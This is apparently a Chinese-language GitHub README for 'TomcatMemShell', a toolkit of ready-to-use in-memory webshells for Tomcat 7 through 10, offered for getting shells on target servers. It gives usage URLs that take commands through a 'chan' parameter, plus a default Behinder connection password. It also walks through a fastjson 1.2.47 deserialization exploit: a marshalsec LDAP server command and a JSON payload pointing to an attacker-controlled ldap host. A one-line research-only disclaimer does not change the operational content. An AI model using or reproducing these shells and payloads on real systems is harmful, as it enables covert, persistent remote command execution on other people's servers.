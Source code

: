 # TomcatMemShell
拿来即用的Tomcat7/8/9/10版本Listener/Filter/Servlet内存马，支持注入CMD内存马和冰蝎内存马  

原理及代码分析详见[《Tomcat Servlet-Api内存马总结及代码实现》](https://mp.weixin.qq.com/s/r-JHLX5UoccGNZCfJS3klg)  

测试通过的Tomcat版本：  
- **tomcat7.0.99**(2019-12-17)&nbsp;&nbsp;&nbsp;&nbsp;**tomcat7.0.64**(2015-10-14)&nbsp;&nbsp;&nbsp;&nbsp;**tomcat7.0.34**(2012-12-11)  
- **tomcat8.5.69**(2021-07-05)&nbsp;&nbsp;&nbsp;&nbsp;**tomcat8.0.46**(2017-08-18)  
- **tomcat9.0.12**(2018-09-10)&nbsp;&nbsp;&nbsp;&nbsp;**tomcat9.0.53**(2021-09-10)  
- **tomcat10.0.11**(2021-09-10)&nbsp;&nbsp;&nbsp;&nbsp;**tomcat10.1.0-M2**(2021-07-02)
# 说明
### 主要内容
1. 实用
2. 适配对应版本的库和函数，如tomcat10开始javax.servlet更改为jakarta.servlet等
3. 添加冰蝎内存马的注入代码，方便直接GetShell
4. 分别总结了.jsp和.java的内存马实现方式，添加了Listener内存马

### JSP目录
根据目标环境**上传或写入**对应大版本的.jsp文件并访问，访问后页面返回>@<即说明注入成功，支持Tomat7/8/9/10版本

*见名知义，memlistener8910.jsp表示适用于Tomcat8/9/10版本的Listener CMD内存马，icememfilter7.jsp表示适用于Tomcat7版本的Filter冰蝎内存马*

### DeSerialize目录
对应的.java文件和.class文件需要结合**反序列化漏洞**类型进行漏洞利用，如fastjson的jndi或snakeyaml的spi等，支持Tomcat8/9/10版本

不适用于shiro漏洞，shiro漏洞利用需要继承AbstractTranslet类并且修改Header大小，感兴趣的可参考该项目：https://github.com/KpLi0rn/ShiroVulnEnv

*见名知义，LRain10表示适用于Tomcat10版本的Listener CMD内存马，IFRain表示适用于Tomcat8/9的Filter冰蝎内存马 （注意java文件修改文件名请与类名保持一致）*

对应java文件中StandardContext的获取依据Litch1师傅[《基于全局储存的新思路 | Tomcat的一种通用回显方法研究》](https://mp.weixin.qq.com/s?__biz=MzIwNDA2NDk5OQ==&mid=2651374294&idx=3&sn=82d050ca7268bdb7bcf7ff7ff293d7b3)的Thread.currentThread().getContextClassLoader()方式，该方式不适用于Tomcat7

# 用法
**Listener型/Filter型:**  
- CMD内存马URL：xx.xx.xx.xx/?chan=whoami  
- 冰蝎内存马URL：xx.xx.xx.xx/ &nbsp;&nbsp;&nbsp;&nbsp;默认连接密码：goautomne

**Servlet型：**  
- CMD内存马URL: xx.xx.xx.xx/p?chan=whoami  
- 冰蝎内存马URL: xx.xx.xx.xx/p &nbsp;&nbsp;&nbsp;&nbsp;默认连接密码：goautomne

# 利用举例
以fastjson1.2.47版本的反序列化漏洞为例，将对应Tomcat版本的class文件，这里以ILRain.class为例，上传到web服务器，并开启LDAP服务
```
java -cp marshalsec-0.0.3-SNAPSHOT-all.jar marshalsec.jndi.LDAPRefServer http://xx.xx.xx.xx/#ILRain 9102
```
然后再打入fastjson漏洞的poc,就可以使用冰蝎客户端去连接了
```
{
    "a":{
        "@type":"java.lang.Class",
        "val":"com.sun.rowset.JdbcRowSetImpl"
    },
    "b":{
        "@type":"com.sun.rowset.JdbcRowSetImpl",
        "dataSourceName":"ldap://xx.xx.xx.xx:9102/123",
        "autoCommit":true
    }
}
```

# 免责声明
仅供技术研究，请勿用于非法用途

# 题外话
觉得有帮助的话烦请给个star:wave:   

